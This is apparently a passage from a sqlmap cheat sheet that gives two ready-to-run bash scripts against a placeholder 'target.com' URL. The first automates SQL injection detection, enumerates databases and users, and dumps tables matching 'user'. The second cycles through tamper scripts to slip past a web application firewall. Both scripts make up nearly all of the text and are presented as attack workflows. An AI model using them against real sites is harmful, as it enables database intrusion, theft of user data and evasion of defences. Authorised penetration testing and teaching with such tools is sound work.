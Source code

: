 - `versionedmorekeywords` - Add more MySQL version comments

## Automated Testing Scripts

### Comprehensive assessment
```bash
#!/bin/bash
TARGET_URL="http://target.com/page.php?id=1"
OUTPUT_DIR="/tmp/sqlmap_results"

echo "Starting comprehensive SQL injection assessment..."

# Basic detection
sqlmap -u "$TARGET_URL" --batch --output-dir="$OUTPUT_DIR" --dbs

if [ $? -eq 0 ]; then
    echo "SQL injection confirmed. Proceeding with enumeration..."
    
    # Database enumeration
    sqlmap -u "$TARGET_URL" --batch --current-db --current-user
    
    # Table enumeration
    sqlmap -u "$TARGET_URL" --batch --tables
    
    # User data extraction
    sqlmap -u "$TARGET_URL" --batch --search -T "*user*" --dump
    
    # System information
    sqlmap -u "$TARGET_URL" --batch --banner --is-dba
    
    echo "Assessment complete. Results saved to $OUTPUT_DIR"
else
    echo "No SQL injection vulnerabilities detected."
fi
```

### WAF bypass testing
```bash
#!/bin/bash
URL="http://target.com/page.php?id=1"
TAMPERS=("space2comment" "charencode" "randomcase" "between" "greatest")

for tamper in "${TAMPERS[@]}"; do
    echo "Testing with tamper: $tamper"
    sqlmap -u "$URL" --tamper="$tamper" --batch --dbs --level=2 --risk=2
    
    if [ $? -eq 0 ]; then
        echo "Success with tamper: $tamper"
        break
    fi
done
```
